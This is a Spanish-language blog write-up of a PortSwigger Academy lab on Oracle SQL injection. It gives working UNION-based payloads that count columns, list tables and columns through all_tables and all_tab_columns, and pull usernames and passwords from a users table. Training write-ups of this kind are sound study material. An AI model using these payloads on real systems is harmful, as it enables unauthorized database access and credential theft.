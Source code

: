 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 10"
date = "2021-11-07"
description = "Lab: SQL injection attack, listing the database contents on Oracle"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, listing the database contents on Oracle

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer los datos en una base de datos oracle que es muy distinto a como se hace en los otros gestores

## Reconocimiento

Algo a notar en las consultas al hacer union en MySQL es que al agregar un comentario se debe de agregar un espacio, como ejemplo `union select null-- ` notese el espacio al final para que el sistema pueda comentar correctamente, en otros gestores no es necesario esto pero MySQL si.

> Algo a tomar en cuenta es que al hacer la solicitud por medio del navegador si se agrega solamente un espacio este no aceptara correctamente la consulta por alguna razon por lo que habria que agregar un `-` para inyectar correctamente la consulta y contrario por medio de `repeater en burpsuite` si se puede agregar solo el espacio y sigue mostrando correctamente sin dar un error de servidor.

##  Payloads

### Detectar columnas

```sql
Pets' order by 1-- -
Pets' order by 2-- -
Pets' order by 3-- - //Muestra error
```
### Detectar string

Por lo que se ve al imprimir datos es que las dos columnas recuperan datos string, no es necesario hacer la prueba pero siempre hacerlo cuando se dude.

```sql
Pets' union select 'test','test' from dual-- -
```
### Recuperar tablas

Ahora recuperar las tablas, en este caso vamos a buscar una tabla que contenga los usuarios, en este caso es la tabla `USERS_TMNLZU` y es la que se lista.

```sql
Pets' union select table_name,null from all_tables-- -
```
![Tablas](tablas.png)

### Recuperar columnas

Para detectar el nombre de las columnas en las tablas se inyecta la siguiente consulta, indicando la tabla de la que se quiere extraer.

```sql
Pets' union select column_name,null from all_tab_columns where table_name = 'USERS_TMNLZU'-- -
```

![Columnas de tabla USERS_TMNLZU](columnas.png)

### Extraer datos

Ahora podremos recuperar los datos teniendo el nombre de las columnas y el nombre de las tablas.

```sql
Pets' union select USERNAME_KNMULR,PASSWORD_KQXSZA from USERS_TMNLZU-- -
```

![Datos extraidos de la tabla USERS_TMNLZU](columnas.png)

Y con esto hemos resulto el lab:

![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)